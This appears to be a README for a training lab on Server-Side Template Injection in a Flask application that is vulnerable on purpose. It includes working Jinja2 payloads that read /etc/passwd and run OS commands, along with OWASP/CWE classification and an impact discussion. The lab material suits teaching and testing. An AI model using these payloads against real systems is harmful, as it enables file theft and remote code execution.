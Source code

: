 # Server-Side Template Injection (SSTI) Vulnerability Analysis - Cybersecurity 0x1

## Overview

This comprehensive analysis demonstrates Server-Side Template Injection vulnerabilities in a Flask web application. The assessment provides professional exploitation methodologies and comprehensive reporting capabilities for educational cybersecurity purposes.

## Features

- **Multiple SSTI Attack Vectors**: Professional payload collection covering various exploitation methods
- **Systematic Vulnerability Testing**: Manual testing approaches for thorough assessment
- **Comprehensive Documentation**: Step-by-step exploitation methodology
- **Professional Analysis**: Complete vulnerability assessment and risk evaluation
- **Multiple Impact Methods**: File read, command execution, sandbox escape

## Prerequisites

### System Requirements

- Python 3.8 or higher
- Flask application running
- Web browser (Chrome, Firefox, Safari, or Edge)
- Terminal/Command line access

### Application Dependencies

```bash
# Verify Python installation
python3 --version

# Verify Flask installation
flask --version
```

## Usage

### 1. Environment Setup

```bash
# Start the vulnerable application
(cd ex00/cyber1x0.1.00/; ./start.sh) 

# Expected output verification
curl http://localhost:5000/
```

### Testing the Payloads

#### Method 1: File Read Exploitation

1. Enter the following payload in the input field:

   ```text
   {{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
   ```

2. Click "Render"

3. **Expected result**: Contents of `/etc/passwd` displayed

#### Method 2: Command Execution

1. Enter payload:

   ```text
   {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
   ```

2. **Expected result**: Current user's ID information

## Vulnerability Classification

### OWASP Classification

- **OWASP Top 10**: A03:2021 - Injection
- **CWE Classification**: CWE-94 - Code Injection
- **Vulnerability Type**: Server-Side Template Injection
- **Severity**: Critical (CVSS 3.1 Base Score: 9.1)

## Technical Description

### What is Server-Side Template Injection?

SSTI occurs when an attacker can inject template directives into user input that are then executed server-side. In Flask/Jinja2 applications, this allows:

- Arbitrary file read operations
- Remote code execution
- System command execution
- Sandbox escape
- Complete server compromise

### Application Specifics

This vulnerability exists because:

- User input is directly interpolated into template strings
- No input sanitization is performed
- The `render_template_string` function is used with untrusted input
- No sandboxing or safe rendering modes are enabled

## Impact Assessment

### Immediate Risks

- Arbitrary file read (including sensitive files)
- Remote code execution
- Server compromise
- Data exfiltration
- Privilege escalation

### Business Impact

- Data breaches
- System compromise
- Reputation damage
- Regulatory fines
- Operational disruption

## Conclusion

This professional SSTI vulnerability analysis provides enterprise-grade security assessment capabilities, demonstrating complete template injection exploitation when the application environment is operational.

## References

- [OWASP Template Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server_Side_Template_Injection)
- [PortSwigger SSTI](https://portswigger.net/web-security/server-side-template-injection)
- [Jinja2 Documentation](https://jinja.palletsprojects.com/)
